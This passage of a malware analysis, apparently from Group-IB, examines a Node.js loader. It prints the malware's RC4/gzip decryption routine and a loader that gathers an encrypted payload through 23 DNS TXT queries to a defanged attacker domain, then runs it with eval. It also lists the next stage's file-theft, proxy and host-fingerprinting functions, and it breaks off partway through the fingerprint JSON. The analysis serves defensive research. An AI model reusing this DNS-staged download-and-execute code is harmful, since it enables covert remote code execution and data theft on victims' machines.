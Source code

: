     We will return to the second response later. If you use the following script:  
crypto=require("crypto"),
global.dec=(key,ciphertext)=>{
	const a=require("crypto").createDecipheriv("rc4",key,null),
	k=a.update(ciphertext,"base64"),
	b=require("zlib").gunzipSync(k);
	return a.final(),b.toString()
}
    and the key 0.058106102444631436.eccbc8[.]com, you will receive the first command:  
let C = 0,
	P = "",
	K = "lin9gtmn",
	R = () => {
    	require("dns").resolveTxt("0x" + C + "." + K + ".eccbc8[.]com", (e, d) => {
        	if (d) {
            	if (P += d.join(""), C++, C < 23) return R();
            	try {
                	eval(global.dec(K, P))
            	} catch (a) {}
        	}
    	})
	};
R()
    As can be seen, the first command is designed to download and run the next-stage tool. To do so, it performs 23 DNS queries (such as 0x%chank_number%.lin9gtmn.eccbc8[.]com), concatenates the responses into a string, de-obfuscates it using the key lin9gtmn, and launches it. An example of such requests:  
0x0.lin9gtmn.eccbc8[.]com
0x1.lin9gtmn.eccbc8[.]com
...
0x22.lin9gtmn.eccbc8[.]com
  The resulting script has many functions, including: Sending multiple DNS queries at the same timeGathering information about infected devicesStealing files from infected devicesDownloading arbitrary files from serversDeploying a SOCKS server to proxy traffic   It is noteworthy that at the time of analysis, the resulting script was unfinished: Group-IB researchers came across errors in the script code and the persistence function was commented out. Moreover, from all the above functions, the script only performs one, namely collecting information about the infected device in a JSON object in the following format:  
{
	"transfer": {
    	"threads": "global.threads",
    	"tick": "global.tick",
    	"domain": "global.dom"
	},
	"paths": {
    	"temp": "os.tmpdir()",
    	"home": "os.homedir()"
	},
	"proc": {
    	"load": "os.loadavg()",
    	"cpus": "os.cpus()"
	},
	"mem": {
    	"total": "os.totalmem()",
    	"free": "os.freemem()"
	},
	"network": {
    	"interfaces": "os.networkInterfaces()"
	},
	"sys": {
    	"hostName": "os.hostname()",
    	"type": "os.type()",
    	"platform": "os.platform()",
    	"release": "os.release()",